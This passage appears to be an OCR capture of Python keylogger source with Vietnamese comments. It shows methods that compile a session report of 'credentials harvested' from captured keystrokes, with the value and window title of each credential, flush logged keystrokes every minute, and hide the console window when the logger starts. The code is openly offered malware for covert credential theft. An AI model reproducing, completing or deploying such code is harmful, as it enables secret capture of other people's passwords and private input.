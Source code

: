             report = f"""
=== KEYLOGGER SESSION REPORT ===
Start Time: {self.session_start.isoformat()}
End Time: {end_time.isoformat()}
Duration: {duration}
Target User: {getpass.getuser()}
Total Keystrokes: {total_keystrokes}
Total Credentials Found: {len(self.credentials_found)}

=== CREDENTIALS HARVESTED ===
"""
            # Thêm chi tiết credentials tìm được
            for cred in self.credentials_found:
                report += f"[{cred['timestamp']}] {cred['type']}: {cred['value']}\n"
                report += f"  Window: {cred['window']}\n"
            
            # Thêm thống kê theo loại credential
            if self.credentials_found:
                report += "\n=== CREDENTIALS SUMMARY ===\n"
                cred_types = {}
                for cred in self.credentials_found:
                    cred_type = cred['type']
                    cred_types[cred_type] = cred_types.get(cred_type, 0) + 1
                for cred_type, count in cred_types.items():
                    report += f"{cred_type}: {count}\n"
            
            # Lưu file với UTF-8 encoding
            report_file.write_text(report, encoding="utf-8")
            print(f"\nSession report saved: {report_file}")
            
        except Exception as e:
            print(f"Error saving session report: {str(e)}")
    
    def periodic_flush(self):
        """Ghi buffer định kỳ"""
        while not STOP_EVENT.is_set():
            time.sleep(60)  # Ghi mỗi phút
            if BUFFER and not STOP_EVENT.is_set():
                self.flush_buffer()
    
    def start(self):
        """Khởi động keylogger"""
        print("Press ESC to stop")
        print("-" * 50)
        
        # Ẩn console
        self.hide_console()
        